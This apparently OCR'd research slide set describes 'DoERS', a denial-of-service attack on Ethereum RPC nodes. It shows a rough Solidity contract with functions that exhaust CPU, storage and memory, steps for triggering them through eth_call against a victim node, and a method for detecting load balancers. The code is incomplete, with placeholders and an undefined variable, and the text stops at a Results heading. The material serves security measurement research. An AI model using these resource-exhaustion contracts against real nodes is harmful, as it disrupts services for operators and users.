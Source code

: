 Constructed based on an exploitable **smart contract** that contains **resource-consuming procedures**

Exploitable functions that aim at **depleting CPU, memory and IO resources**

```javascript
contract DoERS-C {
    
function exhaustCPU(uint256 payload_size1) public returns (bool){
 bytes32 target=0xf...f;
 for (uint256 i=0; i<payload_size1; ++i){
 target = keccak256(abi.encodePacked(target));}
 return true;}
 bytes32[] storage;
    
 function exhaustIO(uint256 payload_size1) public returns(bool){
 for (uint256 j=0; j<payload_size2; ++j) {
 storage.push(0xf...f);}
 return true;}
    
 function exhaustMem(uint256 payload_size3) pure public returns(bool) {
 bytes32[] memory mem = new bytes32[](payload_size3);
 mem[payload_size3-1] = 0xf...f;//"CODECOPY" allocate memory
 return true;}}
```

Executed in two steps: 

1. Client deploys the DoERS-C smart contract to Ethereum.
2. Send one or multiple eth_call RPCs to the victim node to trigger one of the three exhaustXX functions in DoERS-C

Limitation: the configurations of Ethereum nodes may thwart the above basic attack: Ethereum’s Gas
limit, timeout, rate limiting, load balancing, as well as other unknown mechanisms inside the black box RPC services.

## Measurement of DoERS exploitability

### *load balancer*

**Measurement mechanisms**

First, send an orphan transaction with nonce+ 2 and gas price to a target RPC service

Second, send the second orphan transaction, with the same nonce+ 2 but paying gas price−1. If the second transaction fails, no load valancing is detected.

Third, send RPC queries to eth_getTransactionByHash(txHash), after waiting for a time period, sends another one. If both return successfully, no load balancing is detected.

Forth, send getBlockNumber RPC requests, if  anomaly detected (one smaller than last one), load balancing detected.

**Results**
